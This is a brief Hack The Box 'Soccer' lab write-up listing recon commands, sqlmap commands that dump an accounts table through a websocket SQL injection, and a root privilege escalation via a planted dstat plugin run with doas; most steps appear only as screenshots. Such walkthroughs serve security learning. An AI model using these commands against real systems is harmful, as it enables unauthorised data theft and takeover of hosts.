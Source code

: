 # Soccer Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA soccer 10.10.11.194 -T4``

``22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0) ``

``80/tcp   open  http            nginx 1.18.0 (Ubuntu)``

``9091/tcp open  xmltec-xmlmail? ``

# ${{\color{purple}Initial Foothold}}\ $

``ffuf -w /opt/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://FUZZ.soccer.htb/``

![image](https://user-images.githubusercontent.com/123066149/221426650-3ce1d6a0-387e-4b96-99c9-c57907264a0e.png)


``gobuster dir -u http://soccer.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30``

![image](https://user-images.githubusercontent.com/123066149/221426567-190f69c9-3246-4d37-a664-fda04cf7ea3f.png)

# ${{\color{purple}Exploitation}}\ $

![image](https://user-images.githubusercontent.com/123066149/221426683-45621127-e2e1-4f58-a4f0-f70179739fa6.png)

![image](https://user-images.githubusercontent.com/123066149/221426720-39fb117e-96f3-434c-abfd-d2957c87da51.png)

![image](https://user-images.githubusercontent.com/123066149/221426751-bb41721f-2bd1-47fa-8c82-6b50befd5de3.png)

![image](https://user-images.githubusercontent.com/123066149/221426793-6006262e-a75f-4eb4-9bac-778836aec9f7.png)

![image](https://user-images.githubusercontent.com/123066149/221426813-0d466cde-8718-4918-ae66-e73459ccfecb.png)

![image](https://user-images.githubusercontent.com/123066149/221426829-5a1433a3-5563-4453-896e-101884bb5f45.png)

![image](https://user-images.githubusercontent.com/123066149/221426874-d2c8f046-4ce2-409a-861c-eda11f80bd9f.png)

![image](https://user-images.githubusercontent.com/123066149/221426884-1d21bcdc-1e32-42dc-87a4-18788b927e5b.png)

![image](https://user-images.githubusercontent.com/123066149/221426924-e473c558-6c19-4768-aa46-fdafa8e19d65.png)

![image](https://user-images.githubusercontent.com/123066149/221426962-e3a759f0-702d-4b55-b28d-71af8be2cc67.png)

![image](https://user-images.githubusercontent.com/123066149/221426997-3907a810-e0cb-434e-962b-7b307b7c67c7.png)

![image](https://user-images.githubusercontent.com/123066149/221427051-8f2a2b3b-ee68-4070-8407-0df1ea273c41.png)

![image](https://user-images.githubusercontent.com/123066149/221427067-f0fde174-af34-4488-8d6c-fcf2a7e977a4.png)

![100](https://user-images.githubusercontent.com/123066149/221427390-f015d697-787f-402e-8dc1-db5ea71c5cde.PNG)

https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html

``python exploit.py``

![image](https://user-images.githubusercontent.com/123066149/221427259-74842338-5d88-4825-9ecf-67d5286aefdf.png)

![image](https://user-images.githubusercontent.com/123066149/221427625-c4f78986-4131-4fc2-911d-b6aa20eb8eae.png)

``sqlmap -u "http://localhost:8081/?id=" --level=3 --risk=2``

``sqlmap -u "http://localhost:8081/?id=" --current-db``

``sqlmap -u "http://localhost:8081/?id=" -D soccer_db --tables``

``sqlmap -u "http://localhost:8081/?id=" -D soccer_db -T accounts --dump``

![image](https://user-images.githubusercontent.com/123066149/221427478-c2986ffb-f813-4b86-83d0-e00711fa3128.png)

![image](https://user-images.githubusercontent.com/123066149/221427769-c84a68dc-b2b6-4090-96c0-80eef3cdecfb.png)

# ${{\color{purple}Privilege Escalation}}\ $

``nano dstat_rev.py``

``chmod +x dstat_rev.py``

``cp dstat_rev.py /usr/local/share/dstat``

``find / -name dstat -type d 2>/dev/null``

![image](https://user-images.githubusercontent.com/123066149/222103812-7f4b09a1-2fc2-47f4-be25-a526e60332ae.png)

``dstat --list``

![image](https://user-images.githubusercontent.com/123066149/222103985-dbbf03a3-cdd7-42a0-a59f-f28f6e0e4e79.png)

``doas -u root /usr/bin/dstat --rev``

![image](https://user-images.githubusercontent.com/123066149/222104190-f93b57ed-e508-419a-8a5e-7884191cb1eb.png)

# ${{\color{purple}Points of Improvement}}\ $
